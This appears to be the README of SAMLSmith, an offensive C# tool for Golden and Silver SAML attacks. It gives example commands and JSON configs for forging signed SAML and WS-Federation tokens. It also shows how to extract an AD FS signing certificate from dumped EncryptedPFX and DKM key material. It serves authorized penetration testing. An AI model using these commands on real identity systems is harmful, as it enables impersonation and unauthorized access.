

# SAMLSmith


[](https://dotnet.microsoft.com/download/dotnet/6.0)


SAMLSmith is a C# tool for generating custom SAML responses and implementing Silver SAML and Golden SAML attacks. It provides comprehensive functionality for security researchers and penetration testers working with SAML-based authentication systems.

For detailed information about Silver SAML, see: [Meet Silver SAML, Golden SAML In the Cloud](https://www.semperis.com/blog/meet-silver-saml/)


## Usage

SAMLSmith provides four primary commands for different operational scenarios:

| Command | Purpose | Input Method |
|---------|---------|--------------|
| `generate` | SAML response generation | Command line parameters |
| `generateJSON` | SAML response generation | JSON configuration file |
| `generateWSJSON` | WS-Federation response generation | JSON configuration file |
| `generatePFX` | Certificate extraction | AD FS encrypted materials |

## Commands

### generate

Generate SAML responses using command line parameters:

**Parameters:**
- `--pfxPath` - Path to the PFX certificate file
- `--pfxPassword` - Password for the PFX file (optional)
- `--idpid` - Identity Provider Identifier
- `--recipient` - SAML response recipient URL
- `--subjectnameid` - Subject NameID in the SAML response
- `--audience` - Audience for the SAML response
- `--attributes` - Claims/attributes in key=value,key=value format
- `--inResponseTo` - InResponseTo parameter (optional)

**Example:**
```bash
SAMLSmith.exe generate --pfxPath C:\certs\signing.pfx --pfxPassword password123 --idpid https://sts.company.com/adfs/services/trust --recipient https://app.company.com/sso/saml --subjectnameid user@company.com --audience https://app.company.com --attributes "upn=user@company.com,name=John Doe,email=user@company.com"
```

### generateJSON

Generate SAML responses using JSON configuration files:

**JSON Configuration Structure:**
```json
{
    "pfxPath": "C:\\certs\\signing.pfx",
    "pfxPassword": "password123",
    "idpid": "https://sts.company.com/adfs/services/trust",
    "recipient": "https://app.company.com/sso/saml",
    "subjectnameid": "user@company.com",
    "audience": "https://app.company.com",
    "inResponseTo": "optional_response_id",
    "attributes": {
        "http://schemas.microsoft.com/identity/claims/tenantid": "tenant-guid",
        "http://schemas.microsoft.com/identity/claims/objectidentifier": "user-guid",
        "http://schemas.microsoft.com/identity/claims/displayname": "John Doe",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "user@company.com",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name": "John Doe"
    }
}
```

**Usage:**
```bash
SAMLSmith.exe generateJSON --jsonFile config.json
```

### generateWSJSON

Generate WS-Federation responses using JSON configuration files. Note that the attributes format differs from the SAML JSON format:

**JSON Configuration Structure:**
```json
{
    "pfxPath": "C:\\certs\\signing.pfx",
    "pfxPassword": "password123",
    "idpid": "https://sts.company.com/adfs/services/trust",
    "recipient": "https://app.company.com/sso/saml",
    "subjectnameid": "user@company.com",
    "audience": "https://app.company.com",
    "inResponseTo": "optional_response_id",
    "attributes": {
        "http://schemas.microsoft.com/identity/claims/tenantid": "tenant-guid",
        "http://schemas.microsoft.com/identity/claims/objectidentifier": "user-guid",
        "http://schemas.microsoft.com/identity/claims/displayname": "John Doe",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "user@company.com",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name": "John Doe"
    }
}
```

**Important:** For WS-Federation, the `attributes` field uses a comma-separated string format rather than a JSON object structure.

**Usage:**
```bash
SAMLSmith.exe generateWSJSON --jsonFile ws-config.json
```

### generatePFX

Extract usable certificate files from AD FS encrypted materials. Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable PFX certificate file for token signing:

**Parameters:**
- `--encryptedPFXPath` - Path to the EncryptedPFX blob from AD FS configuration database
- `--dkmKeyPath` - Path to the DKM decryption key from Active Directory
- `--pfxOutputPath` - Output path for the decrypted PFX certificate file

**Example:**
```bash
SAMLSmith.exe generatePFX --encryptedPFXPath C:\dumps\EncryptedPfx.bin --dkmKeyPath C:\dumps\DkmKey.bin --pfxOutputPath C:\output\signing_cert.pfx
```

## Credits

This tool includes components translated from the Python tool [ADFSpoof](https://github.com/mandiant/ADFSpoof) created by Doug Bienstock while at Mandiant FireEye, licensed under Apache License 2.0. The `EncryptedPFXDecryptor` class is a C# translation of the PFX decryption functionality from ADFSpoof.

## References

- [Meet Silver SAML, Golden SAML In the Cloud - Semperis](https://www.semperis.com/blog/meet-silver-saml/)
- [Golden SAML Attack Technique - CyberArk](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)
- [ADFSpoof - Original Python Implementation](https://github.com/mandiant/ADFSpoof)

## Legal Notice


This project is distributed under the terms of the Apache 2.0 license. It is provided for informational purposes and the responsible remediation of security vulnerabilities. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not guarantee accuracy or completeness and disclaims any liability arising from the use of this project.
This tool is intended for authorized security testing and research purposes only. Users must ensure they have proper authorization before testing against any systems. The authors assume no responsibility for misuse of this tool.
